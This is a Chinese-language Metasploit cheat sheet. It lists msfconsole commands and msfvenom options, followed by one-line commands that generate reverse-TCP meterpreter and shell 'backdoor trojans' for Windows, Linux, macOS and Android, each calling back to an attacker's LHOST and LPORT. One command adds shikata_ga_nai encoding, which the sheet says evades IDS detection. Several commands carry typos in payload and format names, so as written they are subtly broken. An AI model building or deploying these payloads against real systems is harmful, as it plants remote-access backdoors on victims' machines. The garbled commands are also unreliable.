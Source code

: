 [TOC]



# msfconsole和msfvenom

| msfconsole基本命令                                           |                                                      |
| :----------------------------------------------------------- | ---------------------------------------------------- |
| show exploits                                                | 查看所有可用的的渗透攻击程序代码                     |
| show auxiliary                                               | 查看所有可用的辅助攻击工具                           |
| show options                                                 | 查看模块所有可用选项                                 |
| show payloads                                                | 查看改模块适用的所有载荷代码                         |
| show targets                                                 | 查看该模块适用的攻击目标类型                         |
|                                                              |                                                      |
| **使用命令**                                                 |                                                      |
| search                                                       | 根据关键字搜索某模块                                 |
| info                                                         | 显示模块的详细信息                                   |
| use                                                          | 进入使用某渗透攻击模块                               |
| back                                                         | 回退                                                 |
| set/unset                                                    | 设置/禁用模块中的某个参数                            |
| save                                                         | 将当前值保存下来，以便下次启动msf终端时仍可使用      |
|                                                              |                                                      |
| **msfvenom主要参数**                                         |                                                      |
| -p                                                           | payload,                                             |
| -e                                                           | 编码方式                                             |
| -i                                                           | 编码次数                                             |
| -b                                                           | 在生成的程序中避免出现的值                           |
| LHOST,LPORT                                                  | 监听上线的主机IP和端口                               |
| -f exe/apk/elf/macoh                                         | 生成exe文件 apk文件 elf文件 macoh                    |
| msfvenom -l payloads                                         | 列出所有的payload                                    |
| msfvenom -p windows/x64/meterpreter/revers_tcp -e x86/shikate_ga_nai -i 5 -b '\x00' LHOST=IP地址 LPORT=端口 -f exe > test.exe | 生成exe格式后门木马并用shikata_ga_nai编码绕过IDS检测 |
|                                                              |                                                      |
| **不同操作系统的后门生成方式**                               |                                                      |
| msfvenom -p linux/x86/meterptetert/reverse_tcp LHOST=IP LPORT=端口 -f elf > shell.elf | 生成linux后门木马                                    |
| msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=端口 -f exe > shell.exe | 生成windows后门木马                                  |
| msfvenom-p osx/x86/shell_reverse_tcp LHOST=IP LPORT=端口 -f macho > shell.macho | 生成mac后门木马                                      |
| msfvenom -p android/meterpretert/reverse_tcp LHOST=IP LPORT=端口 -o shell.apk | 生成android后门木马程序                              |
|                                                              |                                                      |
|                                                              |                                                      |
|                                                              |                                                      |
|                                                              |                                                      |